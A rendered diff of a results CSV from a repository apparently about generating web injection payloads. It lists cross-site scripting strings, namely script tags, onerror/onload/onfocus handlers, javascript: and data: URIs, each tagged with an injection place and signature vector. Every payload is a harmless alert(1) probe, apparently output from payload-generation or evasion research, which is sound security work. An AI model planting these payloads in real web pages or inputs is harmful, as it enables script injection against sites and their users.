

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/ga_result_llm.csv, drawn as a sheet.

```diff
--- a/result/ga_result_llm.csv
+++ b/result/ga_result_llm.csv
@@ -2,12 +2,12 @@ eval_place,sig_vector,sig_string
 body_tag,"[0, 1, 2]","""<script>alert(1)</script>"""
-body_tag,[131],"""<img src='x' onerror='alert(1)'>"""
-body_tag,[132],"""<body onload='alert(1)'>"""
-body_tag,[133],"""<iframe src='javascript:alert(1)'>"""
-body_tag,[61],"""<svg onload='alert(1)'>"""
-body_tag,[134],"""<div onmouseover='alert(1)'>"""
-body_tag,[135],"""<input type='text' value='' onfocus='alert(1)' autofocus>"""
-body_tag,[136],"""<svg/onload=alert(1)>"""
-body_tag,[137],"""<details open="""" ontoggle='alert(1)'>"""
-body_tag,[138],"""<a href='javascript:alert(1)'>"""
-body_tag,"[111, 139]","""<video><source onerror='alert(1)'>"""
-body_tag,"[140, 83, 74, 13]","""<form><isindex type='image' src='x' onerror='alert(1"
+body_tag,[3],"""<img src='x' onerror='alert(1);'>"""
+body_tag,[4],"""<body onload='alert(1)'>"""
+body_tag,[5],"""<svg onload='alert(1)'>"""
+body_tag,[6],"""<input type='text' value='' onfocus='alert(1)' autofocus>"""
+body_tag,[7],"""<details open='' ontoggle='alert(1)'>"""
+body_tag,"[8, 9]","""<video><source onerror='alert(1)'>"""
+body_tag,[10],"""<audio src='x' onerror='alert(1)'>"""
+body_tag,[11],"""<frame src='javascript:alert(1)'>"""
+body_tag,"[12, 1, 2]","""<iframe src='data:text/html,<script>alert(1)</script>'>"""
+body_tag,"[13, 14]","""<a href='javascript:alert(1)'>link</a>"""
+body_tag,[15],"""<style>@keyframes x"
```
Also changed, not shown: result/gan_result_chrome.csv, result/gan_result_vec_chrome.csv, 9 other files.
